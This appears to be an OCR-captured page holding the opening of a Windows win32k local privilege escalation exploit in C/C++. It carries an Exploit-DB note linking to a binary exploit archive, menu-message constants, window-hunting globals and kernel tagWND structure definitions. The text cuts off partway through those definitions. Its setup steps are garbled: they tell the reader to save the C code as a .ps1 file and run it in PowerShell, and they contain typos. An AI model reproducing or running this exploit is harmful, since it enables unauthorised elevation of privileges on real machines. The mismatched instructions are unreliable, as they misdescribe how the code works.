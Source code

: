 - Must be run on Windows host locally 
- Must be run via POWERSHELL
- User priviledges are minimum to execute

1. create local file w/ *.ps1 extension in user profile
2. copy and paste content
3. save 
4. ####### ream more on parameters or msfconole may already have included: 

**PowerShell**

include <Windows.h>
include <iostream>

/*
EDB Note: Download ~ https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/47176.zip
*/

/* PREPROCESSOR DEFINITIONS */
#define MN_SELECTITEM 0x1E5
#define MN_SELECTFIRSTVALIDITEM 0x1E7
#define MN_OPENHIERARCHY 0x01E3
#define MN_CANCELMENUS 0x1E6
#define MN_BUTTONDOWN 0x1ed
#define WM_EX_TRIGGER 0x6789
#define NtCurrentProcess() (HANDLE)-1
#define NtCurrentThread()  (HANDLE)-1
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#define TYPE_WINDOW 1

/* GLOBAL VARIABLES */
static BOOL		hWindowHuntDestroy = FALSE;
static BOOL		bEnterEvent = FALSE;
static BOOL		success = FALSE;
static HMENU	hMenuList[3] = { 0 };
static HWND		hWindowMain = NULL;
static HWND		hWindowHunt = NULL;
static HWND		hwndMenuList[3] = { 0 };
static PVOID	MemAddr = (PVOID)1;
static SIZE_T	MemSize = 0x1000;
static DWORD	iCount = 0;
static DWORD	release = 0;


/* Structure definition of win32k!tagWND returned by xxHMValidateHandle */
typedef struct _HEAD {
	HANDLE  h;
	DWORD   cLockObj;
} HEAD, *PHEAD;

typedef struct _THROBJHEAD {
	HEAD    head;
	PVOID   pti;
} THROBJHEAD, *PTHROBJHEAD;
